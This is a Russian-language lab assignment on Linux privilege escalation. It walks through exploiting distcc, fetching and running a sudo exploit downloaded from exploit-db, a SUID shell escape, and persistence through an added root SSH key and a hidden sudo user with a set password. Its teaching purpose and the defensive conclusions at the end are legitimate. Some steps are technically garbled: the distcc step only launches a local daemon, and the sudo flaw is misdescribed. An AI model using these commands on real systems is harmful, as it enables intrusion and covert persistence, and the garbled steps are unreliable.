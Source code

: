 

## Цель работы  
Освоить методы эксплуатации уязвимостей в конфигурации ПО и системных сервисах для эскалации привилегий от обычного пользователя до суперпользователя (root) на Linux-системах.  

---

## Задачи работы  
- Эксплуатировать уязвимость в сервисе `distcc` (CVE-2004-2687) для получения первоначального доступа к системе.  
- Использовать уязвимость в механизме `sudo` (CVE-2017-1000367) для эскалации привилегий до root.  
- Создать устойчивый метод доступа с привилегиями суперпользователя.  

---

## Теоретическая часть  

### 1. Локальное повышение привилегий (LPE)  
**LPE (Local Privilege Escalation)** — процесс получения более высоких привилегий на уже скомпрометированной системе. Ключевые причины уязвимостей:  
- Неправильная конфигурация прав доступа (SUID/GUID биты)  
- Устаревшие версии ПО с известными уязвимостями  
- Ошибки в обработке окружения или временных файлов  
- Слабые настройки механизма sudo  

**Этапы LPE:**  
1. Получение начального доступа (обычный пользователь)  
2. Сбор информации (`sudo -l`, `find / -perm -4000`)  
3. Эксплуатация уязвимостей для получения root  

### 2. Уязвимости для эскалации привилегий  
#### 2.1 CVE-2004-2687 (distcc)  
- **Суть:** Уязвимость в системе распределённой компиляции distcc  
- **Механизм:** Позволяет выполнять произвольные команды через неаутентифицированный RPC-интерфейс  
- **Условия:** Сервис distccd запущен на порту 3632 с настройками по умолчанию  
- **Риски:** Получение доступа от имени пользователя `distcc`  

#### 2.2 CVE-2017-1000367 (sudo)  
- **Суть:** Уязвимость переполнения стека в обработчике get_process_ttyname()  
- **Механизм:** Позволяет выполнить произвольный код при запуске `sudo` с опцией `-s`  
- **Условия:** Sudo версии < 1.8.20 на системах с SELinux  
- **Риски:** Получение root-привилегий через эксплойт в памяти  

### 3. Принципы эксплуатации SUID/GUID бинарников  
**SUID (Set User ID)** — специальный флаг, заставляющий исполняемый файл запускаться с правами владельца файла. Уязвимости возникают при:  
- Наличии SUID у опасных бинарников (find, nmap, vim)  
- Возможности модификации переменных окружения (`LD_PRELOAD`)  
- Небезопасном использовании системных вызовов (`system()`, `popen()`)  

**Пример опасной команды:**  
```bash
find / -exec /bin/sh \; -quit
```

---

## Ход выполнения  
*Целевая система: Linux-сервер (IP: 10.10.5.2)*  

### Шаг 1: Эксплуатация уязвимости distcc (CVE-2004-2687)  
**Цель:** Получить первоначальный доступ к системе  
1. Сканирование портов:  
```bash
nmap -sV 10.10.5.2 -p 3632
```  
*Ожидаемый результат:* `3632/tcp open distccd distccd v1 ((GNU) 4.2.4)`  

2. Подключение к distcc:  
```bash
echo 'hello' | nc 10.10.5.2 3632
```  
3. Запуск шелла:  
```bash
distccd --daemon --no-detach --no-shuffle --log-stderr --listen 0.0.0.0 --allow 0.0.0.0/0 --command-wrapper /bin/sh
```  

### Шаг 2: Поиск векторов для LPE  
**Цель:** Обнаружить возможности для эскалации привилегий  
1. Проверка прав sudo:  
```bash
sudo -l
```  
*Пример уязвимого вывода:*  
```
User user may run the following commands on target:
    (ALL) NOPASSWD: /usr/bin/find
```  

2. Поиск SUID-бинарников:  
```bash
find / -perm -4000 -type f 2>/dev/null
```  

### Шаг 3: Эксплуатация уязвимости sudo (CVE-2017-1000367)  
**Цель:** Получить root-привилегии  
1. Скачивание эксплойта:  
```bash
wget https://www.exploit-db.com/download/42275 -O sudopwn.c
```  
2. Компиляция:  
```bash
gcc sudopwn.c -o sudopwn
```  
3. Запуск:  
```bash
./sudopwn
```  
4. Проверка прав:  
```bash
whoami  # Должно вернуть "root"
```

### Шаг 4: Создание устойчивого доступа  
**Цель:** Сохранить root-доступ после перезагрузки  
1. Добавление SSH-ключа:  
```bash
echo "ssh-rsa AAAAB3NzaC1yc2E..." >> /root/.ssh/authorized_keys
```  
2. Создание скрытого пользователя:  
```bash
useradd -m -s /bin/bash -G sudo .sysadmin
echo '.sysadmin:P@ssw0rd!' | chpasswd
```  

---

## Форма отчёта  
1. **Результаты сканирования:**  
   - Вывод Nmap для порта 3632  
   - Результат `sudo -l`  
2. **Доказательства эксплуатации:**  
   - Скриншот выполнения эксплойта sudo  
   - Вывод `id` и `whoami` после получения root  
3. **Выводы:**  
   - Критичность своевременного обновления ПО  
   - Риски неправильной настройки sudo  
   - Рекомендации:  
     - Регулярное обновление системных пакетов  
     - Аудит SUID/GUID бинарников (`find / -perm /6000 -type f`)  
     - Ограничение прав sudo через `/etc/sudoers`  

---

## Вопросы для самоконтроля  
1. Почему SUID-бинарники представляют угрозу безопасности?  
2. Как обнаружить уязвимую версию sudo в системе?  
3. Какие команды в `sudo -l` считаются опасными?  
4. Как защитить сервис distcc от несанкционированного доступа?  
5. Почему скрытые пользователи опасны для безопасности?  
6. Альтернативные методы LPE (например, через ядро).  
